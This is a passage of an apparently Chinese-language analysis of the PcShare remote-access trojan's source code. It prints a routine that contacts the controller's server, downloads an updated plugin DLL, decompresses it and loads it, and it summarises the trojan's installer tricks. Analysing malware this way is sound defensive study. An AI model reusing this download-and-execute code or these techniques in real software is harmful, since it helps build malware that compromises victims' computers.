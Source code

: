 ```

    //连接服务器，上送本地文件校验码
    CMyClientTran m_Tran;
    if(!m_Tran.Create(nCmd, m_DllInfo.m_ServerAddr, m_DllInfo.m_ServerPort, 
        m_DllInfo.m_DdnsUrl, m_DllInfo.m_PassWord) || !m_Tran.SendData(m_DllFileMd5, 16))
    {
        return NULL;
    }

    //接收文件长度
    DWORD nFileLen = 0;
    if(!m_Tran.RecvData(&nFileLen, sizeof(DWORD)))
    {
        return NULL;
    }

    //查看是否需要接收文件
    if(nFileLen == 0)
    {
        return LoadLibrary(pFilePath);
    }

    //接收文件
    BYTE* pFileData = new BYTE[nFileLen + 65535];
    ZeroMemory(pFileData, nFileLen + 65535);
    if(!m_Tran.RecvData(pFileData, nFileLen))
    {
        delete [] pFileData;
        return NULL;
    }

    //解压文件
    FCLzw lzw;
    if(!lzw.PcSaveData(pFileData, pFilePath))
    {
        delete [] pFileData;
        return NULL;
    }
    delete [] pFileData;

    //装载DLL文件
    return LoadLibrary(pFilePath);
}

```

校验插件文件完整性使用MD5算法，判断是否与控制端最新版本相符。相同则不在传输，貌似MD5算法目前不是太安全了吧。

0x03 文章小结
=========

* * *

Pcshare这款远控的代码规范方面还是比较工整的，代码缩进而且还有大量注释。非常适合初学入门和二次开发。据说早期有HTTP协议的版本但是现在代码丢失了，可惜了这款2010款是TCP版本对企业防火墙穿墙能力有限。比较有特色的思路：1、LZW编码压缩 2、改PE的DOS头“This”给文件做标记 3、利用空区段存放数据，看得出作者对安装用的EXE处理上花了不少功夫。

PcMain 主功能控制插件、PcShare 主控程序带界面将在第2篇中在分析，预知后事如何,请听下回分解。